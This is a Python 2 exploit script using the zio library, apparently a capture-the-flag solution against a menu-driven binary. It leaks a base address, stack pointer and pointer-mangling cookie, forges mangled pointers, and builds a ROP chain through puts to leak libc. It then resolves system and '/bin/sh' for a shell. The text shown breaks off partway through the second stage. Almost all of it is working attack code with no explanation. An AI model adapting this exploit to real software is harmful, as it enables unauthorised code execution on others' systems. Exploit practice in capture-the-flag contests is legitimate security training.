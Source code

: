 ```
 
def edit(io, id, age, name, addr, introduce):
    io.read_until('&gt;&gt;')
    io.writeline('3')
    io.read_until(':')
    io.writeline(str(id))
    io.read_until(':')
    io.writeline(name)
    io.read_until(':')
    io.writeline(str(age))
    io.read_until(':')
    io.writeline(addr)
    io.read_until(':')
    io.writeline(introduce)
 
 
def exp(target):
    io = zio(target, timeout=10000, print_read=COLORED(RAW, 'red'), 
             print_write=COLORED(RAW, 'green'))
 
    io.read_until(':')
    io.writeline(str(92233720368547759))
    base, rsp, cookie = show(io, 1)
    print 'base', hex(base)
 
    fake_rsp = rsp - 0x48
    pop_rdi_ret = base + 0x000000000001523
 
    addr = l64(rol(fake_rsp^cookie))+l64(rol(pop_rdi_ret^cookie))
    print HEX(addr)
    edit(io, 1, 0, "", addr, "")
 
    io.read_until('&gt;&gt;')
    payload = '5;'+'a'*6
 
    puts_got = 0x0000000000202018+ base
    puts_plt = 0x9a0 + base
    main = base + 0x00000000000013ff
    payload += l64(puts_got)+l64(puts_plt)+l64(main)
    io.writeline(payload)
 
    puts_addr = l64(io.readline()[:-1].ljust(8, 'x00'))
    '''
    base = puts_addr - 0x000000000006F5D0
 
    system = base + 0x0000000000045380
 
    print 'system', hex(system)
    binsh = base + 0x000000000018C58B
    '''
 
    base = puts_addr - 0x000000000006FD60
    print 'base', hex(base)
    system = base + 0x0000000000046590
    binsh = base + 0x000000000017C8C3
 
    #io.gdb_hint()
    io.read_until(':')
    io.writeline(str(92233720368547759))
 
 
    fake_rsp = rsp - 0x80
 
```
